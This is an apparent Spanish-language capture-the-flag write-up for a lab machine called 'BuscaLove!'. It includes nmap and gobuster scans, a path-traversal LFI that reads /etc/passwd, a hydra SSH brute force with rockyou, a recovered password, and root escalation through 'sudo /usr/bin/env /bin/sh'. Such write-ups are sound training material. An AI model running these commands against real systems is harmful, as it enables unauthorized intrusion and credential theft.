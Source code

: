 ```yaml
---
layout: page
title:  "BuscaLove!"
date:    2024-11-30 14:14:17 -0508
categories: Pentesting
---
```

iniciamos la maquina 

![[Pasted image 20241121181626.png]](/imagenes/Pasted%20image%2020241121181626.png)

analizamos los puertos con nmap  `nmap -p- --open -sCVS -vvv -Pn -n --min-rate 5000 172.18.0.2`

![[Pasted image 20241121181701.png]](/imagenes/Pasted%20image%2020241121181701.png)

buscamos directorios con gobuster `gobuster dir -u "172.18.0.2" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241121181919.png]](/imagenes/Pasted%20image%2020241121181919.png)

entramos al link http://172.18.0.2/wordpress/ y vemos el codigo fuente 

![[Pasted image 20241121182104.png]](/imagenes/Pasted%20image%2020241121182104.png)

se verifica que se ueda usar LfI http://172.18.0.2/wordpress/index.php?love=../../../../../../../../../../etc/passwd

![[Pasted image 20241121182234.png]](/imagenes/Pasted%20image%2020241121182234.png)

encontramos dos usuarios pedro y rosa usamos hydra en cada uno para encontrar alguna contrasena la elegida es rosa
`hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -s 22`

![[Pasted image 20241121182352.png]](/imagenes/Pasted%20image%2020241121182352.png)

encontramos una contrasena para rosa y entramos mediante ssh 

![[Pasted image 20241121182446.png]](/imagenes/Pasted%20image%2020241121182446.png)

listamos los directorios

![[Pasted image 20241121182516.png]](/imagenes/Pasted%20image%2020241121182516.png)

listamos los directorios de root y encontramos un archivo secret.txt lo leemos y encontramos una cadena de carateres que analizamos usando chatgpt 

![[Pasted image 20241121182629.png]](/imagenes/Pasted%20image%2020241121182629.png)

con chatgpt descubrimos que esta en hex y posiblemente ascii o base 32 buscamos un decodificador online 

![[Pasted image 20241121182839.png]](/imagenes/Pasted%20image%2020241121182839.png)

 y tenemos una contrasena noacertarasosi
 probamos con el usurio pedro 

![[Pasted image 20241121182940.png]](/imagenes/Pasted%20image%2020241121182940.png)

listamos los directorios y vemos que tenemos acceso a la dirrecion /usr/bin/env  con gtfobins encontramos como escalar privilegios

![[Pasted image 20241121183102.png]](/imagenes/Pasted%20image%2020241121183102.png)

usamos el comando `sudo /usr/bin/env /bin/sh` y listo somos root


![[Pasted image 20241121183208.png]](/imagenes/Pasted%20image%2020241121183208.png)


